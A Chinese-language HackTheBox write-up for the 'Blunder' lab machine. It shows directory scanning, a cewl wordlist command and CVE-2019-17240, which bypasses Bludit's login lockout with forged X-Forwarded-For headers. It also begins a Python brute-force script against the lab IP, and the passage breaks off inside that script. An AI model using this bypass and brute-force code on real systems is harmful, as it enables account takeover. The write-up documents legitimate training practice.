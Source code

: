 ```yaml
---
title: HackTheBox::Blunder
date: 2020-07-16
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180606.png
description: 
categories: 
- 渗透
tags:
- HackTheBox
- CVE
---
```



玩一手HTB

------

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180614.png)

打开靶机就一些无关紧要的文字，dirsearch扫一下目录可以扫到登录后台，我们可以发现靶机使用了 `Bludit` cms

在看了一些Bludit的漏洞之后，发现在没有登录、我们又只有一个后台地址的情况下，弱口令比较靠谱

 

### [CVE-2019-17240](https://github.com/bludit/bludit/pull/1090)

Bludit是一套开源的轻量级博客内容管理系统（CMS）。



Bludit 3.9.2版本中的 `bl-kernel/security.class.php` 一些代码将检查主机进行的错误登录尝试次数。如果主机进行10次不正确的尝试，则会暂时阻止它们，以减轻暴力破解的企图。攻击者通过使用多个伪造的X-Forwarded-For或Client-IP HTTP标头利用该漏洞绕过保护机制。

爆破了半天，无果。

看了wp之后，我们找到了本来没有被dirsearch扫到的`/todo.txt`：

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

可以猜到用户名可能是 `fergus` ，但是密码需要用到[cewl](https://www.jianshu.com/p/7906cc79fb9c)来生成弱口令字典

```
cewl -w wordlist.txt -d 10 -m 1 http://10.10.10.191/
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180623.png)

然后我们利用改装过后的CVE-2019-17240的[poc](https://github.com/bludit/bludit/pull/1090)来打：

```
#!/usr/bin/env python3
import re
import requests
 
def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]
 
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('wordlist.txt')
 
for password in wordlist:
```